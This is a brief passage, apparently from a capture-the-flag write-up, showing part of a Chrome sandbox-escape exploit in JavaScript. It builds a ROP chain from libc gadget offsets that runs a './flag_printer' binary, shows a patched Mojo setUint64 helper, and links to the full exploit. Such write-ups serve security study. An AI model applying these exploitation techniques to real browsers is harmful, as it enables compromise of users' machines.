 ```javascript
await tInsPtr.push(libcAddr + 0x1b96);
await tInsPtr.push(0); // rdx = 0

await tInsPtr.push(libcAddr + 0xd1ba7);

for (let i = 0; i < 0x10; i++) {
	await tInsPtr.push([0x6c662f2e, 0x705f6761]);
/* 
// setUint64 in mojo_bindings.js is modified to this to support this,
// otherwise we cannot set a correct uint64
// due to the precision of js number
Buffer.prototype.setUint64 = function(offset, value) {
  var hi;
  if (typeof value == 'object') {
    hi = value[1];
    value = value[0]
  }
  else {
    hi = (value / kHighWordMultiplier) | 0;
  }
  if (kHostIsLittleEndian) {
    this.dataView.setInt32(offset, value, kHostIsLittleEndian);
    this.dataView.setInt32(offset + 4, hi, kHostIsLittleEndian);
  } else {
    this.dataView.setInt32(offset, hi, kHostIsLittleEndian);
    this.dataView.setInt32(offset + 4, value, kHostIsLittleEndian);
  }
}
*/
	await tInsPtr.push(0x7265746e6972)
}
```

Here is the full [exploit](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/T20ChromeSBX.html).

